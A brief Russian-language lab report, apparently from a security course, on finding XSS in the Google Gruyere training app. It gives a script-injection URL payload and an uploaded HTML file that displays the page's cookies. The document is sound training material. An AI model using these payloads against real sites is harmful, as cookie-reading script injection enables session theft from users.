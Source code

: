 #### 1-1) Уязвимость через адресную строку:
https://google-gruyere.appspot.com/380075102534537954520940078031300502308/snippets.gtl?uid=+%3Cscript%3Ealert('Finded XSS')%3C/script%3E

![](img/50/результаты%202/1-XSS%20найдена.png)

#### 1-2) File Upload XSS
Создаем файл xss.html с содержимым
```text
<script>
alert(document.cookie);
</script>
```

Загружаем его и получаем адрес его размещения
https://google-gruyere.appspot.com/380075102534537954520940078031300502308/alex/xss.html
Переходим на адрес и видим куки приложения
![](img/50/результаты%202/2-XSS%20File%20upload.png)

#### 1-3) Reflected XSS

![](img/50/результаты%202/3-reflected%20XSS.png)
